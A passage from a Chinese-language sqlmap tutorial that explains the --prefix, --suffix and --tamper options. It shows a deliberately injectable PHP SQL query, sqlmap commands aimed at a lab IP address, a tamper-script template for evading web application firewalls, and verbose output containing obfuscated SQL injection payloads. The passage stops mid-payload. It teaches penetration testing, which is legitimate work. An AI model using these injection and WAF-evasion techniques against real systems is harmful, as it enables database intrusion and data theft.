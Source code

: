 原因同上，可以指定id=13把原来的id=-13的报错改成id=13 AND 18=19。
注入payload

参数：--prefix,--suffix

在有些环境中，需要在注入的payload的前面或者后面加一些字符，来保证payload的正常执行。

例如，代码中是这样调用数据库的：

$query = "SELECT * FROM users WHERE id=(’" . $_GET[’id’] . "’) LIMIT 0, 1"; 

这时你就需要--prefix和--suffix参数了：

python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "’)" --suffix "AND (’abc’=’abc"

这样执行的SQL语句变成：

$query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’) LIMIT 0, 1"; 

修改注入的数据

参数：--tamper

sqlmap除了使用CHAR()函数来防止出现单引号之外没有对注入的数据修改，你可以使用--tamper参数对数据做修改来绕过WAF等设备。

下面是一个tamper脚本的格式：

# Needed imports
from lib.core.enums import PRIORITY
# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL
def tamper(payload):
    '''
    Description of your tamper script
    '''
    retVal = payload
    # your code to tamper the original payload
    # return the tampered payload
    return retVal

可以查看 tamper/ 目录下的有哪些可用的脚本

例如：

$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONCAT(cHar(
58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/**/elsE/**/0/**/